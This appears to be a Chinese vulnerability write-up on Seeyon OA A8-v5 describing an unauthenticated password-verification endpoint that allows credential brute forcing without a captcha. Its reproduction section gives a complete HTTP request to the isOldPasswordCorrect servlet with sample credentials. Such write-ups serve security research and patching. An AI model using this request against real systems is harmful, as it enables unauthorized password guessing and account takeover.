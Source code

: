 ```yaml
---
title: "致远OA A8-v5 无视验证码撞库"
id: zhfly3357
---
```


# 致远OA A8-v5 无视验证码撞库

## 一、漏洞简介

致远A8-V5在设计时存在逻辑错误，用户修改密码时对原密码进行了验证，但是验证使用的服务存在未授权访问漏洞，系统对非合法请求的原密码验证功能进行回应，导致了无视验证码，无需login页面进行密码尝试

## 二、漏洞影响

致远OA A8-v5

## 三、复现过程

POST穷举用户和密码代码如下

```
GET /seeyon/getAjaxDataServlet?S=ajaxOrgManager&M=isOldPasswordCorrect&CL=true&RVT=XML&P_1_String=admin&P_2_String=wy123456 HTTP/1.0

Accept: */*

Accept-Language: zh-cn

Referer: [http://www.0-sec.org/seeyon/individualManager.do?method=managerFrame](http://www.0-sec.org/seeyon/individualManager.do?method=managerFrame)

requesttype: AJAX

Content-Type: application/x-www-form-urlencoded

Cookie:

User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko

Host: [www.0-sec.org](http://www.0-sec.org)

DNT: 1 `Proxy-Connection: Keep-Alive` 
```

![image](../img/28b7b833eb8bba5b404ac18972077e08.png)